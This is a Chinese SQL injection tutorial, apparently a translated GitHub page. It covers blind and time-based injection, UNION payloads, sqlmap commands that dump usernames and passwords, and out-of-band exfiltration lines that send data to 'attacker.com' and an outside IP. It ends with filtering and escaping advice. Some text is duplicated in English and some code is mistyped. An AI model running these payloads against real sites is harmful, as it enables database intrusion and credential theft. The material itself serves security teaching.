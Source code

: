 # SQL Injections (SQLi)

![](http://i.imgur.com/AcVJKT2.png)

* SQL通过构建查询语句来工作，这些语句的目的是为了变得方便阅读和直观。


* SQL查询搜索可以很容易地进行操作，并假设SQL查询搜索是可靠的命令。这意味着SQL搜索可以通过存取控制机制来传递，而不被注意。
* 通过使用转移标准身份验证和检查授权凭证的方法，您可以访问存储在数据库中的重要信息。

* 开发:
	- 从数据库中转储内容。
	- 插入新数据。
	- 修改现有的数据。
	- 写入磁盘。

## 举个最简单的例子

传递给用户名的参数:

```
SELECT * FROM users WHERE
name="$name";
```

在这种情况下，攻击者只需要引入一个真正的逻辑表达式 ```1=1```:

```
SELECT * FROM users WHERE 1=1;
```
因此**WHERE**子句总是被执行，这意味着它将返回与所有用户匹配的值。

现在估计只有不到5%的网站有这样的漏洞。

这些类型的缺陷有助于其他攻击的发生，例如XSS或缓冲区溢出。

## SQL 盲注

* 推断:当数据没有返回并/或详细的错误消息被禁用时，这是有用的技术。我们可以根据页面响应的某些属性对两个状态进行区分。

* 据估计，超过20%的网站都有这样的移除。

* 在传统的SQLi中，可以通过攻击者编写有效负载来揭示信息。在盲目的SQLi中，攻击者需要询问服务器是否为真或假。例如，您可以请求一个用户。如果用户存在，它将载入网站，所以这是真的。

* 基于时间的技术:基于延迟的数据库查询(sleep()、等待延迟等)来推断。

```
IF SYSTEM_USER="john" WAIFOR DELAY '0:0:15'
```

* 基于响应的技术(真或假):基于响应的文本进行推断。例子:

```
SELECT count (*) FROM reviews WHERE author='bob' (true)
SELECT count (*) FROM reviews WHERE author='bob' and '1'='1' (true)
SELECT count (*) FROM reviews WHERE author='bob' and '1'='2' (false)
SELECT count (*) FROM reviews WHERE author='bob' and SYSTEM_USER='john' (false)
SELECT count (*) FROM reviews WHERE author='bob' and SUBSTRING(SYSTEM_USER,1,1)='a' (false)
SELECT count (*) FROM reviews WHERE author='bob' and SUBSTRING(SYSTEM_USER,1,1)='c' (true)
```
(并继续进行迭代，直到找到systemuser的值)。

* 利用HTTP响应之外的传输。

```
SELECT * FROM  reviews WHERE review_author=UTL_INADDR.GET_HOST_ADDRESS((select user from dual ||'.attacker.com'));
INSERT into openowset('sqloledb','Network=DBMSSOCN; Address=10.0.0.2,1088;uid=gds574;pwd=XXX','SELECT * from tableresults') Select name,uid,isntuser from master.dbo.sysusers--
```

### 常见的方法开发
* 每当你看到一个URL，**问号**后面跟着某种类型的字母或单词，就意味着一个值从一个页面发送到另一个页面。

* 在这个例子里
```
http://www.website.com/info.php?id=10
```
页面 *info.php* 正在接收数据，并将有一些像这样的代码:
```
$id=$_post['id'];
```
以及一个相关的SQL查询:
```
QueryHere = "select * from information where code='$id'"
```



#### 检查漏洞
我们可以通过在URL的结尾附加一个简单的单引号 ```'``` 来验证目标是否脆弱。

```
http://www.website.com/info.php?id=10'
```

如果该网站返回以下错误:

		You have an error in your SQL syntax...

这意味着这个网站很容易受到SQL的攻击。

#### 找到数据库的结构
要找到数据库中列和表的数量，我们可以使用 [Python's SQLmap](http://sqlmap.org/).

该应用程序通过自动化数据库的SQL注入缺陷的检测和开发，从而简化了SQL注入过程。这里是几种自动机制来查找数据库名、表名和列数。

* ORDER BY:它试图将所有的列从x到无穷排序。当响应显示输入列x不存在时，迭代就停止了，这将会显示x的值。

* UNION:它在不同的表列中收集多个数据。这个自动化的过程试图收集由 ORDER BY 所获得的列/表x、y、z所包含的所有信息。有效负载类似于:

```The automated process tries to gather all information contained in columns/table x,y,z obtained by ORDER BY. The payload is similar to:

```
?id=5'%22union%22all%22select%221,2,3
```

* Normally the databases are defined with names such as: user, admin, member, password, passwd, pwd, user_name. The injector uses a trial and error technique to try to identify the name:

```
?id=5'%22union%22all%22select%221,2,3%22from%22admin
```
So, for example, to find the database name, we run the *sqlmap* script with target *-u* and enumeration options *--dbs* (enumerate DBMS databases):

```
$ ./sqlmap.py -u <WEBSITE> --dbs
(...)
[12:59:20] [INFO] testing if URI parameter '#1*' is dynamic
[12:59:22] [INFO] confirming that URI parameter '#1*' is dynamic
[12:59:23] [WARNING] URI parameter '#1*' does not appear dynamic
[12:59:25] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
[12:59:25] [INFO] testing for SQL injection on URI parameter '#1*'
[12:59:25] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[12:59:27] [WARNING] reflective value(s) found and filtering out
[12:59:51] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[13:00:05] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[13:00:16] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause'
(...)
```

#### 获得数据库的访问权限

* 例如，通过这种方式，我们可以验证我们现有的数据库是什么。通过这种方式，我们可以知道出现了多少个表，以及它们各自的名称。sqlmap命令是:

```
./sqlmap -u <WEBSITE> --tables <DATABASE-NAME>
```

* 主要的目标是找到用户名和密码，以便获得访问/登录站点的权限，例如在一个名为*用户*的表中。sqlmap命令

```
./sqlmap -u <WEBSITE> --columns -D <DATABASE-NAME> -T <TABLE-NAME>
```

这将返回给定表中的列的信息。

* 现在，我们可以使用标记为```-C```的列名称来转储所有列的所有数据: 

```
./sqlmap -u <WEBSITE> --columns -D <DATABASE-NAME> -T <TABLE-NAME> -C 'id,name,password,login,email' --dump
```

如果密码是明文(不是在md5中散列，等等)，我们就可以访问这个网站。

## 基本SQL注入开发步骤

1. 指纹数据库服务器。
2. 获得初步的运行开发。有效负载的例子:
	- '
	- '--
	- ')--
	- '))--
	- or '1'='1'
	- or '1'='1
	- 1--
3. 通过UNION语句提取数据:
	- NULL: 用作列位置占位符有助于数据类型转换错误
	- GROUP 帮助确定列数
4. 列举数据库架构。
5. 把应用程序数据倾卸。
6. 升级特权，并将操作系统升级。



## 一些保护建议

* 永远不要将数据库作为超级用户或根用户连接。
* 净化任何用户输入。PHP有几个函数来验证函数，比如:
	- is_numeric()
	- ctype_digit()
	- settype()
	- addslahes()
	- str_replace()
* 对所有非数值输入值，添加引号 ```"```这些输入值将通过使用转义chars函数传递给数据库:
	- mysql_real_escape_string()
	- sqlit_escape_string()

```php
$name = 'John';
$name = mysql_real_escape_string($name);
$SQL = "SELECT * FROM users WHERE username='$name'";
```

* 始终执行从用户接收到的数据的解析(POST和FORM方法)。
	- 需要被检查的字符串:```", ', whitespace, ;, =, <, >, !, --, #, //```.
	- 保留的单词: SELECT, INSERT, UPDATE, DELETE, JOIN, WHERE, LEFT, INNER, NOT, IN, LIKE, TRUNCATE, DROP, CREATE, ALTER, DELIMITER.

* 不要显示展现请求或部分SQL请求的明确的错误信息。它们可以帮助识别RDBMS(MSSQL，MySQL)。

* 删除未使用的用户帐户(和默认帐户)。

* 其他工具: blacklists, AMNESIA, Java Static Tainting, Codeigniter.

